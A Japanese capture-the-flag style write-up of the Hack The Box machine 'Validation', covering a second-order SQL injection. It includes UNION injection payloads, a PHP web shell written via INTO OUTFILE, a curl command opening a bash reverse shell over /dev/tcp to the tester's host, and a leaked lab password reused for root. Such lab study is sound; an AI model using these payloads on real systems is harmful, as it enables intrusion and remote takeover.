


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。


今回は、HackTheBoxのリタイアマシン「Validation」のWriteUpです。



## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [SQLi](#sqli)
  - [Second Order SQL injection](#second-order-sql-injection)
  - [UNION injection](#union-injection)
- [Priv](#priv)
- [まとめ](#まとめ)

## 探索

とりあえずいつもの。

``` bash
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-28 22:29 JST
Warning: 10.10.11.116 giving up on port because retransmission cap hit (6).
Nmap scan report for targethost.htb (10.10.11.116)
Host is up (0.40s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
8080/tcp open     http          nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.03 seconds
```

80番ポートで何かよくわからないWEBアプリケーションが動いてました。


ユーザ名と国名をPOSTすると、自動的に登録して、同じ国のユーザを表示してくれるアプリケーションのようです。

ユーザ名を取得して表示しているので、SQLiが刺さりそうという観点から調査を進めます。

一応XSSの脆弱性もあったのですが、シェルにはつながらないタイプのXSSだったのでスルーします。

## SQLi

試しにSQLmapの探索をかけてみたのですが、`username`も`country`も`does not seem to be injectable`と出てしまいました。

``` bash
python3 sqlmap.py -u "http://targethost.htb/" --data "username=test&country=Ukraine"
```

どうやら入力フォームにはエスケープが存在しているようです。

### Second Order SQL injection

このアプリケーションには、Second Order SQLi の脆弱性があります。

参考：[second-order SQL injection ( セカンドオーダーSQLインジェクション ) - がるの健忘録](https://gallu.hatenadiary.jp/entry/20060105/p1)

実際のところ、このアプリケーションは裏でこのような処理が動いていました。

``` php
<?php
  require('config.php');
  if ( $_SERVER['REQUEST_METHOD'] == 'POST' ) {
    $userhash = md5($_POST['username']);
    $sql = "INSERT INTO registration (username, userhash, country, regtime) VALUES (?, ?, ?, ?)";
    $stmt = $conn->prepare($sql);
    $stmt->bind_param("sssi", $_POST['username'], $userhash , $_POST['country'], time());
    if ($stmt->execute()) {;
            setcookie('user', $userhash);
            header("Location: /account.php");
            exit;
    }
    $sql = "update registration set country = ? where username = ?";
    $stmt = $conn->prepare($sql);
    $stmt->bind_param("ss", $_POST['country'], $_POST['username']);
    $stmt->execute();
    setcookie('user', $userhash);
    header("Location: /account.php");
    exit;
  }
?>
```

POSTで送られてきた値をプレースホルダを通してDBに格納し、`/account.php`にリダイレクトしています。

``` php
<?php 
  include('config.php');
  $user = $_COOKIE['user'];
  $sql = "SELECT username, country FROM registration WHERE userhash = ?";
  $stmt = $conn->prepare($sql);
  $stmt->bind_param("s", $user);
  $stmt->execute();
  
  $result = $stmt->get_result(); // get the mysqli result
  $row = $result->fetch_assoc(); // fetch data   
  echo '<h1 class="text-white">Welcome ' . $row['username'] . '</h1>';
  echo '<h3 class="text-white">Other Players In ' . $row['country'] . '</h3>';
  $sql = "SELECT username FROM registration WHERE country = '" . $row['country'] . "'";
  $result = $conn->query($sql);
  while ($row = $result->fetch_assoc()) {
    echo "<li class='text-white'>" . $row['username'] . "</li>";
  }
?>
```

先ほどのindex.phpの入力フォームではSQLクエリがプレースホルダされていましたが、リダイレクト先のaccount.php内の、ユーザや地域を取得する箇所にはプレースホルダが存在していませんでした。

そのため、Second Order SQLiの脆弱性が存在します。

というわけで、リダイレクトのタイミングでCountryの入力欄に`'`を入れると、`Faital Error`がブラウザ上に表示され、SQLiができそうなことがわかります。



### UNION injection

というわけで実際にSQLiを実行していきます。

先ほどのBurp経由でのテストを実施した際にもわかるとおり、単純にSQLiを行うだけでは戻り値を表示することができません。

そのため、UNION injectionという手法でインジェクションを行っていきます。

UNION injectionは、UNIONクエリを利用して、既存のSQLクエリにポイズニングをしかけ、もともとのクエリ結果と任意のクエリの結果を結合させる攻撃手法です。

こんな感じのクエリを投げつけます。

``` bash
country=Brazil' UNION SELECT 1;-- -';
```

参考：[SQL Injection Cheat Sheet | Netsparker](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#UnionInjections)

ここから、UNION injectionを使ってDBの探索とエクスプロイトを行います。

``` bash
-- DBのユーザ名を表示
select user()

-- DB名
select database()

-- DS列挙
select schema_name from information_schema.schemata

-- テーブル取得
select table_name from information_schema.tables where table_schema = '<table name>'

-- テーブル情報取得
select column_name from information_schema.columns where table_name = '<table name>'

-- ユーザの権限参照
select privilege_type FROM information_schema.user_privileges where grantee = "<username>"

-- ファイルへの書き込み（ユーザにFILE権限が存在する場合のみ実行可能）
select "Test" into outfile '/var/www/html/Test.txt'

-- WEBシェルの書き込み
select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/webshell.php'
```

特に着目すべきは、ユーザーのprivilege_typeを出力した際にFILE権限が付与されていた点です。

これは、DBユーザがローカルシステムへのファイルアクセスの権限を有していることを意味します。

参考：[MySQL :: MySQL 5.6 リファレンスマニュアル :: 6.2.1 MySQL で提供される権限](https://dev.mysql.com/doc/refman/5.6/ja/privileges-provided.html)

そのため、`into outfile`を用いて、SQLi経由でWEBシェルを埋め込むことに成功しました。

あとは、WEBシェルに対してリバースシェルを仕掛けることでUserフラグを取得できます。

``` bash
curl "http://10.10.11.116/webshell.php" --data-urlencode "cmd=bash -c '/bin/bash -l > /dev/tcp/10.10.0.0/4444 0<&1 2>&1'"
```

## Priv

ローカルログイン後にconfig.phpを参照すると、ユーザのパスワードが記載されていました。

``` php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

これで`su root`を実行するとルート権限を取得することができます。

## まとめ

ハッキングを真面目に勉強しようと思ったので、とりあえずリタイアマシンを解きまくっていきます。
